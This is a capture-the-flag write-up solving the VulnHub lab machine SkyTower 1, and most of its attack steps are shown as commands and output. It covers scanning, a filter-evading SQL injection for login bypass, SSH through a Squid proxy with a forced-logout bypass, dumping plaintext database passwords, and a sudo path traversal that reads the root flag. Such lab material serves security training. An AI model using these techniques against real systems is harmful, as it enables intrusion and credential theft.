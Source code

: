 # Information

- Name: Sky Tower 1
- Date Release: 26 Jun 2014
- Author: Telspace
- Series: SkyTower
- Platform: VulnHub
- Link: https://www.vulnhub.com/entry/skytower-1,96/
- Difficulty: Easy-Intermediate

# Write Up
## Enum
### Host Discovery
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, the machine ip is _10.0.2.20_.
```Console
# python arpScan.py -r 10.0.2.0/24 -m 2
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:dd:df:dc 10.0.2.3
[*] 08:00:27:54:4a:37 10.0.2.20

```
### Port Scanning 
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools) and nmap. _portScan_report that are open 2 ports:
```Console
# python portScanner.py -i 10.0.2.20   
[*] Port 80 (http) open
[*] Port 3128 (unknown) open
```
With nmap lets check the version and filtered ports:
```Console
# nmap -sS -p- -Pn -n --min-rate 5000 10.0.2.20
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-04 19:51 CEST
Nmap scan report for 10.0.2.20
Host is up (0.00017s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
``` 
```Console
# nmap -sV -p80,3128 -oN portScanning 10.0.2.20
Nmap scan report for 10.0.2.20 (10.0.2.20)
Host is up (0.00038s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.2.22 ((Debian))
3128/tcp open  http-proxy Squid http proxy 3.1.20
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)

```

So there are a proxy, web and filtered ssh that maybe is accesible via proxy.

### Web
There is a login in _index.html_:
![Index](images/index.png)

But, first, lets do fuzzing with _gobuster_ to discover hidden directories and files:
```Console
# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.20 -x .php,.txt,-html -t 100 -o fuzzing_index_proxy      
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.20
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,-html
[+] Timeout:                 10s
===============================================================
2022/09/04 19:57:04 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 1136]
/login.php            (Status: 200) [Size: 21]  
/background           (Status: 200) [Size: 2572609]
/background2          (Status: 200) [Size: 2831446]
/server-status        (Status: 403) [Size: 290]
```

Nothing interesting, let's try SQLi with ':
![SQLi Error](images/sqli_error.png)
## Exploitation
After a few attempts, I have noticed that there is a filter. For example, the strings 'or','select', ... are filtered. So, let's try with 'OorR' because the filter is going to remove 'or' and will leave the string 'OR'. The injection is as follows:

```sql
' OorR 1=1#
```

And is successful:

![sqli](images/sqli.png)

So we have ssh credentials. Let's add the proxy to proxychains:
```Console
# sudo echo "http 10.0.2.20 3128" >> /etc/proxychains4.conf 
# tail -n 3 /etc/proxychains4.conf                         

# defaults set to "tor"
#socks4         127.0.0.1 9050
http 10.0.2.20 3128

```

```Console
# proxychains4 ssh john@10.0.2.20
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.0.2.20:3128  ...  10.0.2.20:22  ...  OK
john@10.0.2.20's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep  4 11:52:57 2022 from 10.0.2.20

Funds have been withdrawn
Connection to 10.0.2.20 closed.

```
Now the connection is closed, for bypass this append /bin/bash:

```Console
# proxychains4 ssh john@10.0.2.20 /bin/bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.0.2.20:3128  ...  10.0.2.20:22  ...  OK
john@10.0.2.20's password: 
whoami
john
id
uid=1000(john) gid=1000(john) groups=1000(john)

```
## Privilege Escalation
In _login.php_ there are credentials for mysql (note: i can't get a full tty):

```Console
cat /var/www/login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
...
...
...

```

Let's dump the database (mysql return me error if i dont put the input in command line):

```Console
# mysql -uroot -proot -e "use SkyTech; show tables;"
Tables_in_SkyTech
login
# mysql -uroot -proot -e "use SkyTech; select * from login;"
id      email   password
1       john@skytech.com        hereisjohn
2       sara@skytech.com        ihatethisjob
3       william@skytech.com     senseable
```
Let's try login with new users:

```Console
proxychains4 ssh sara@10.0.2.20 /bin/bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.0.2.20:3128  ...  10.0.2.20:22  ...  OK
sara@10.0.2.20's password: 
whoami
sara
id
uid=1001(sara) gid=1001(sara) groups=1001(sara)
sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*

```
The creds for sara are correct but williams creds didn't work. Sara can execute as sudo cat and ls on /accounts. So, we can execute ls and cat on /root using _.._ for parent directory:

```Console
# sudo ls /accounts/../root
flag.txt
# sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
